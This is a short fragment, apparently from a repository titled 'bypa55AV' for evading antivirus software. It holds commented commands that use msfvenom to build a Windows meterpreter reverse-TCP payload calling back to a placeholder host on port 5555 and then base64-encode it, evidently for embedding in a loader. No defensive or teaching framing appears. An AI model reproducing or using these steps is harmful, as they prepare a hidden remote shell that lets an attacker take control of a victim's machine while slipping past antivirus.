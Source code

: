 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw
// base64 -w 0 -i rev.raw > rev.bs64
// cat rev.bs64

